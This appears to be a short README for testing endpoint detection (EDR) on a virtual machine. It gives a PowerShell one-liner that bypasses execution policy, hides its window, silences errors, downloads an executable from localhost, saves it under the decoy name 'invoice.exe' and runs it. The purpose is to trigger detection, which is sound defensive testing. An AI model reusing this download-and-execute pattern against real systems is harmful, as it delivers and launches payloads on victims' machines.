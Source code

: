 # Testing the EDR Detecion

## Following excersise needs to be run on your Virtual Mahcine, NOT your production machine!


1. Open Command Prompt as administrator
2. Run the following command "powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'"
3. Command Promt will close automatically


